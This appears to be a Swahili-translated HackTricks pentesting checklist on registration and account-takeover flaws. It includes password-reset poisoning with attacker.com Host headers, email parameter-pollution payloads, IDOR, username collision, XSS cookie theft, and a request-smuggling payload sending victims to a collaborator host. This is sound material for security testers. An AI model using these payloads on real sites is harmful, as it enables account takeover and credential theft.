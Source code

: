 # Usajili & Ukatili wa Akaunti

{{#include ../banners/hacktricks-training.md}}

## Ukatili wa Usajili

### Usajili wa Nakala

- Jaribu kuunda kwa kutumia jina la mtumiaji lililopo
- Angalia kubadilisha barua pepe:
- herufi kubwa
- \+1@
- ongeza nukta kwenye barua pepe
- wahusika maalum katika jina la barua pepe (%00, %09, %20)
- Weka wahusika weusi baada ya barua pepe: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Uainishaji wa Jina la Mtumiaji

Angalia kama unaweza kubaini wakati jina la mtumiaji tayari limeregisteriwa ndani ya programu.

### Sera ya Nywila

Unapounda mtumiaji angalia sera ya nywila (angalia kama unaweza kutumia nywila dhaifu).\
Katika hali hiyo unaweza kujaribu kubruteforce akauti.

### SQL Injection

[**Angalia ukurasa huu** ](sql-injection/#insert-statement)kujifunza jinsi ya kujaribu ukatili wa akaunti au kutoa taarifa kupitia **SQL Injections** katika fomu za usajili.

### Oauth Ukatili

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### Ukatili wa SAML

{{#ref}}
saml-attacks/
{{#endref}}

### Badilisha Barua Pepe

Wakati wa usajili jaribu kubadilisha barua pepe na angalia kama mabadiliko haya yanathibitishwa kwa usahihi au unaweza kuyabadilisha kuwa barua pepe zisizo na mpangilio.

### Ukaguzi Zaidi

- Angalia kama unaweza kutumia **barua pepe za muda**
- **Nywila** **Ndefu** (>200) inasababisha **DoS**
- **Angalia mipaka ya viwango kwenye uundaji wa akaunti**
- Tumia username@**burp_collab**.net na uchambue **callback**

## **Ukatili wa Kurejesha Nywila**

### Kuvuja kwa Tokeni ya Kurejesha Nywila Kupitia Referrer <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Omba kurejesha nywila kwa anwani yako ya barua pepe
2. Bonyeza kwenye kiungo cha kurejesha nywila
3. Usibadilishe nywila
4. Bonyeza tovuti zozote za upande wa tatu (mfano: Facebook, twitter)
5. Kamatia ombi katika Burp Suite proxy
6. Angalia kama kichwa cha referer kinavuja tokeni ya kurejesha nywila.

### Ukatili wa Kurejesha Nywila kwa Msumeno <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Kamatia ombi la kurejesha nywila katika Burp Suite
2. Ongeza au hariri vichwa vifuatavyo katika Burp Suite: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Peleka ombi na kichwa kilichobadilishwa\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Tafuta URL ya kurejesha nywila kulingana na _kichwa cha host_ kama: `https://attacker.com/reset-password.php?token=TOKEN`

### Kurejesha Nywila Kupitia Parameta ya Barua Pepe <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR kwenye Parameta za API <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Mshambuliaji lazima aingie kwenye akaunti yao na aende kwenye kipengele cha **Badilisha nenosiri**.
2. Anza Burp Suite na uingilie ombi
3. Tuma kwenye tab ya repeater na uhariri parameta: User ID/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Token ya Kurekebisha Nenosiri dhaifu <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Token ya kurekebisha nenosiri inapaswa kuundwa kwa bahati nasibu na kuwa ya kipekee kila wakati.\
Jaribu kubaini kama token inakoma au ikiwa kila wakati ni ile ile, katika baadhi ya matukio algorithimu ya uzalishaji ni dhaifu na inaweza kukisiwa. Vigezo vifuatavyo vinaweza kutumika na algorithimu.

- Wakati
- UserID
- Barua pepe ya Mtumiaji
- Jina la Kwanza na Jina la Mwisho
- Tarehe ya Kuzaliwa
- Cryptography
- Nambari pekee
- Mfululizo mdogo wa token (herufi kati ya \[A-Z,a-z,0-9])
- Tumia tena token
- Tarehe ya kumalizika kwa token

### Kuonyesha Token ya Kurekebisha Nenosiri <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Trigger ombi la kurekebisha nenosiri kwa kutumia API/UI kwa barua pepe maalum e.g: test@mail.com
2. Kagua jibu la seva na angalia `resetToken`
3. Kisha tumia token katika URL kama `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Kurekebisha Nenosiri Kupitia Mkutano wa Jina la Mtumiaji <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Jisajili kwenye mfumo kwa jina la mtumiaji linalofanana na jina la mtumiaji wa mwathirika, lakini ukiweka nafasi za wazi kabla na/au baada ya jina la mtumiaji. e.g: `"admin "`
2. Omba kurekebisha nenosiri kwa jina lako la mtumiaji la uhalifu.
3. Tumia token iliyotumwa kwa barua pepe yako na urekebishe nenosiri la mwathirika.
4. Unganisha kwenye akaunti ya mwathirika kwa nenosiri jipya.

Jukwaa la CTFd lilikuwa na udhaifu kwa shambulio hili.\
Tazama: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Kuchukua Akaunti Kupitia Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Pata XSS ndani ya programu au subdomain ikiwa vidakuzi vimewekwa kwenye kikoa cha domain ya mzazi: `*.domain.com`
2. Onyesha **vidakuzi vya vikao** vya sasa
3. Thibitisha kama mtumiaji kwa kutumia cookie

### Kuchukua Akaunti Kupitia HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Tumia **smuggler** kugundua aina ya HTTP Request Smuggling (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Tengeneza ombi ambalo litabadilisha `POST / HTTP/1.1` na data ifuatayo:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` kwa lengo la kufungua kuhamasisha waathirika kwa burpcollab na kuiba vidakuzi vyao\
3\. Ombi la mwisho linaweza kuonekana kama ifuatavyo
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone inaripoti kutumia hitilafu hii\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Kuchukua Akaunti kupitia CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Tengeneza payload kwa ajili ya CSRF, e.g: “Fomu ya HTML yenye kuwasilisha kiotomatiki kwa ajili ya kubadilisha nenosiri”
2. Tuma payload

### Kuchukua Akaunti kupitia JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token inaweza kutumika kuthibitisha mtumiaji.

- Hariri JWT kwa ID ya Mtumiaji / Barua pepe nyingine
- Angalia saini dhaifu ya JWT

{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Marejeleo

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}
